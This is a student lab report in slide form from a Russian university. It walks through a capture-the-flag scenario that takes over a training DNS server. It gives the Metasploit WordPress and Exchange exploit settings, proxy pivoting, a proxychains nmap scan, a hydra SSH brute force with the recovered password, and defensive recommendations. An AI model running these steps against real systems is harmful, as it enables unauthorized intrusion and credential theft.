








---
## Author
author:
  name: А. Атанесов, А. Понич, В. Ефремова, А. Касьянов, Б. Тогтохжаф, Д. Дроздова
  affiliation:
    - name: Российский университет дружбы народов
      country: Российская Федерация
      postal-code: 117198
      city: Москва
      address: ул. Миклухо-Маклая, д. 6

## Title
title: "Отчёт по лабораторной работе по предмету «Кибер безопасность предприятий»"
subtitle: "Программный комплекс «Ampire»: обнаружение, анализ и устранение последствий атак"
license: "CC BY"
date: today
date-format: "YYYY-MM-DD"
---

# Цель работы

**Сценарий № 5 «Захват DNS-сервера»**

- Получение доступа к DNS-серверу во внутреннем сегменте.
- Нахождение флага в DNS-записи.
- Отработка техник эксплуатации уязвимостей и последующего анализа.

---

# План презентации

1. Цель и задача  
2. Способы получения доступа (эксплойты)  
3. Настройка и запуск Metasploit / Meterpreter  
4. Сканирование сети и поиск DNS-сервера  
5. Bruteforce SSH  
6. Результаты и выводы

---

# Способы получения сессии

- Использованы модули:
  - `wp_wpdiscuz_unauthenticated_file_upload` (WordPress)
  - `exchange_proxyshell_rce` (MS Exchange)
- Цель: получить активную meterpreter-сессию в сегменте DMZ.

---

# Запуск Metasploit (1)

- Команда: `sudo msfconsole`
- Выбор модуля: `exploit9unix/webapp/wp_wpdiscuz_unauthenticated_file_upload`

---

# Настройка модуля (2)

- Примеры параметров:
  - `set rhosts 195.239.174.25`
  - `set blogpath /index.php/2021/07/26/hello-world/`
  - `set lhost 195.239.174.11`
- Запуск: `run`

---

# Получение сессии через Exchange (3)

- Модуль: `exchange_proxyshell_rce`
- Параметры: `set lhost 195.239.174.11`, `set rhosts 195.239.174.1`
- Результат: meterpreter-сессия на почтовом сервере

---

# Анализ ARP-кеша (4)

- Команда в meterpreter: `arp`  
- Помогает определить активные устройства в сети (пример: 10.10.10.15)

---

# Сканирование подсети (5)

- Использовали post-модуль `multi/gather/ping_sweep`
- Настройки прокси: `srvport 1080`, `version 5`
- Результат: список активных хостов в 10.10.10.0/24

---

# Маршруты и доступ (6)

- Команда `route` подтвердила доступ к внутренним подсетям (autoroute)
- Таблица маршрутизации проверена на MS Exchange

---

# Настройка proxy / socks (7)

- Модуль: `auxiliary/server/socks_proxy`
- Настройка `proxychains` и локального SOCKS (127.0.0.1:1080)
- Используется для проксирования последующих сканирований/атак

---

# Сканирование портов (8)

- Команда (через proxychains):
  `proxychains nmap -n -sT -Pn --top-ports 100 10.10.10.15`
- Результат: открытые порты — 22 (SSH), 53 (DNS)

---

# Bruteforce SSH (9)

- Подготовка: `/usr/share/wordlists/rockyou.txt`, `userlist`
- Команда:  
  `proxychains hydra -V -f -l user -P rockyou.txt -t 32 10.10.10.15 ssh`
- Успех: найден пароль `california101` для `user`

---

# Результат bruteforce (10)

- Успешная авторизация по SSH:
  - host: 10.10.10.15
  - login: user
  - password: california101

---

# Доступ к DNS-серверу (11)

- После получения SSH-доступа проведён поиск DNS-записей
- Найден флаг в одной из записей (детали в отчёте)

---

# Краткие выводы

- Успешно получена meterpreter-сессия через уязвимости WordPress / Exchange.  
- Настройка прокси и авторутинг позволили сканировать внутреннюю сеть.  
- Сканирование выявило DNS-сервер с открытым SSH (10.10.10.15).  
- Bruteforce дал учётные данные и доступ к серверу; флаг найден в DNS-записи.

---

# Рекомендации по защите

- Обновлять CMS и почтовые серверы, закрывать известные CVE.  
- Отключить внешнюю доступность админских панелей.  
- Ограничить доступ SSH по IP; внедрить многофакторную аутентификацию.  
- Мониторить аномалии входов (4688, 4624 и т.д.) и процессы, создающие копии (признаки бекдора).

---

